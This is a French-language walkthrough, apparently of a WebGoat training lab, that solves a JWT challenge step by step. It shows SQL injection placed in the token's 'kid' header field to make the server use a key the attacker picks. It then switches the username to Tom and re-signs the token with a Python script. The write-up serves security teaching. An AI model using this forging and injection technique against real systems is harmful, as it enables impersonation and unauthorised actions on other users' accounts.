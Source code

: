 *   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Sur WebGoat, cliquer sur **Delete**.
*   Repérer la requête vers `delete` dans l'onglet _Réseau_ et cliquer sur _En-têtes_.
*   Remarquer le paramètre :
```
token=eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6IkhTMjU2In0.eyJpc3MiOi
JXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYX
VkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiSmVycn
kiLCJFbWFpbCI6ImplcnJ5QHdlYmdvYXQuY29tIiwiUm9sZSI6WyJDYXQiXX0.CgZ27DzgVW8gzc0n6i
zOU638uUCi6UhiOJKYzoEZGE8
```
*   En base64, cela se décode en : 
```
{"typ":"JWT","kid":"webgoat_key","alg":"HS256"}.{"iss":"WebGoat Token Builder",
"iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"jerry@webgoat.com",
"username":"Jerry","Email":"jerry@webgoat.com","Role":["Cat"]}.signature
```
*   Modifier les deux premières parties du token en :
```
{"typ":"JWT","kid":"hacked' UNION select 'ZGVsZXRpbmdUb20=' from 
INFORMATION_SCHEMA.SYSTEM_USERS --","alg":"HS256"}
``` 
et 
```
{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,
"aud":"webgoat.org","sub":"jerry@webgoat.com","username":"Tom",
"Email":"jerry@webgoat.com","Role":["Cat"]}
```
puis recalculer la signature avec la clé `deletingTom`, avec le script Python ci-dessous par exemple.
*   Le nouveau token est :
```
eyJ0eXAiOiJKV1QiLCJraWQiOiJoYWNrZWQnIFVOSU9OIHNlbGVjdCAnWkdWc1pYUnBibWRVYjIwPScg
ZnJvbSBJTkZPUk1BVElPTl9TQ0hFTUEuU1lTVEVNX1VTRVJTIC0tIiwiYWxnIjoiSFMyNTYifQ.eyJpc
3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwN
CwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiV
G9tIiwiRW1haWwiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsIlJvbGUiOlsiQ2F0Il19.JrDpQmNiVI818UvO
MQgRmPkZOetw7Ic1WbPvStS2B6U
```
*   Cliquer sur _Modifier et Renvoyer_, modifier le paramètre avec la nouvelle valeur générée, et renvoyer la requête.

```python
import base64  
import hashlib  
import hmac  
  
def jwt_tokens_8():  
     def hmac_base64(key, message):  
         return base64.urlsafe_b64encode(bytes.fromhex(hmac.new(key, message, hashlib.sha256).hexdigest()))  
  
     header = '{"typ":"JWT","kid":"hacked\' UNION select \'ZGVsZXRpbmdUb20=\' from INFORMATION_SCHEMA.SYSTEM_USERS --","alg":"HS256"}'.encode()  
     payload = '{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"jerry@webgoat.com","username":"Tom","Email":"jerry@webgoat.com","Role":["Cat"]}'.encode()  
  
     new_token = (base64.urlsafe_b64encode(header).decode().rstrip('=') +  
         '.' +  
         base64.urlsafe_b64encode(payload).decode().rstrip('=')).encode()  
     new_signature = hmac_base64('deletingTom'.encode(), new_token)  
     new_token += ('.' + new_signature.decode().rstrip('=')).encode()  
  
     print('New token: {}'.format(new_token.decode()))  
     return  
  
```